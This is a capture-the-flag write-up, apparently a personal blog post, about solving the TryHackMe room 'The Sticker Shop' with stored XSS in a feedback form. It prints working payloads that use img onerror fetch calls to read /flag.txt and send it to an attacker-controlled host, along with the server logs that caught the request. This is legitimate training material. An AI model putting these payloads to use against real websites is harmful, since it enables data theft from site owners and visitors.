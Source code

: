 ```yaml
---
title: "TryHackMe - The Sticker Shop"
author: Nasrallah
description: ""
date:2024-12-05 12:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, web, easy, xss]
img_path: /assets/img/tryhackme/thestickershop
image:
    path: /assets/img/tryhackme/thestickershop/thestickershop.png
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

[The Sticker Shop](https://tryhackme.comr/r/room/thestickershop) from [TryHackMe](https://tryhackme.com/signup?referrer=603949780215185dfb191142) is a simple web challenge where we exploit an XSS vulnerability to read the flag.

## **Enumeration**

### Web

This is a web challenge and the website can be found on port 8080.

![website](/assets/img/tryhackme/thestickershop/1.png)

It's a sticker shop, nothing looks interesting on the home page, let's check the feedback page.

![feedback](/assets/img/tryhackme/thestickershop/2.png)

Here we can submit a feedback.

The first thing that comes to mind is to check if links are being clicked, so I entered my ip address but didn't receive anything on my http server.

Next thing is XSS, Trying multiple payloads I managed to get a hit with the following payload:

```js
<img src="nonexistent.jpg" onerror="fetch('http://10.8.81.165');">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:25:28] "GET / HTTP/1.1" 200 -  
```

Now we need to read the file located in `/flag.txt`.

With the help of ChatGPT and some trial and error we ended up with the following payload that reads the file.

```javascript
<img src="nonexistent.jpg" onerror="fetch('/flag.txt').then(r=>r.text()).then(d=>fetch(`http://your-attack-server.com?fileContent=${encodeURIComponent(d)}`));">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:35:16] "GET /?fileContent=THM%7B8[REDACTED]ee6%7D HTTP/1.1" 200 -
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

